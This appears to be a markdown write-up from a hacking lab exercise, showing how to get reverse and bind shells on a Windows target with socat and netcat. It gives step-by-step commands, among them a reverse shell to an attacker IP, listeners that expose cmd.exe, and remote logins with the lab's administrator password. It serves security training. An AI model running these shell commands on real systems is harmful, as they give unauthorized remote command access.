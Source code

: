 * Experiment using socat and netcat to obtain reverse and bind shells on the Windows Target.

	#### Socat techniques

	* Bind shell

		* Step 1 login to target machine = `evil-winrm -i $IP -u Administrator -p 'TryH4ckM3!'`
		* Step 2 on target machine = `socat TCP-L:8888 EXEC:cmd.exe,pipes`
		* Step 3 on our machine = `socat TCP:$IP:8888 -`
			
		![task13-win-socat-bind](./images/task13-win-socat-bind.png)

	* Reverse shell

		* Step 1 on our machine = `socat TCP-L:9999 -`
		* Step 2 login to target machine = `evil-winrm -i $IP -u Administrator -p 'TryH4ckM3!'`
		* Step 3 on target machine = `socat TCP:10.13.52.88:9999 EXEC:cmd.exe,pipes`

		![task13-win-socat-reverse](./images/task13-win-socat-reverse.png)

	#### Netcat techniques

	* Bind shell

		* Step 1 login on target machine = `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:$IP /u:Administrator /p:'TryH4ckM3!'` and set listener `nc -nvlp 8888 -e "cmd.exe"`

			![task13-win-listener](./images/task13-win-listener.png)

		* Step 2 on our machine = `nc $IP 8888`
